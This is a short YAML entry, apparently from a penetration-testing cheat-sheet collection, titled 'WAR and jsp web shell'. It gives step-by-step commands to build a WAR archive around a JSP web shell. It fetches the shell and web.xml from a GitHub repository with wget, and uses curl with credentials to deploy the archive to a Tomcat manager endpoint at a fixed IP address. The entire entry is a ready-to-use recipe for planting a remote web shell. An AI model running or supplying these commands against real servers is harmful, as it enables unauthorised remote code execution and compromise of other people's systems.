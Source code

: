 ```yaml
---
functions:
  shell:
    - description: WAR and jsp web shell
      code: |
        (1) File Structure:
          ── shell.jsp
          ── WEB-INF
              ── web.xml
        (2) jar -cf shell.war *
        (3) curl --upload-file shell.war http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true -u {username}
        (4) https://{address}/{context}

          mkdir WAR
          cd WAR 
          wget https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
          mkdir WEB-INF
          wget https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml -O WEB-INF/web.xml
          jar -cf shell.war *
          

resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml    
---
```

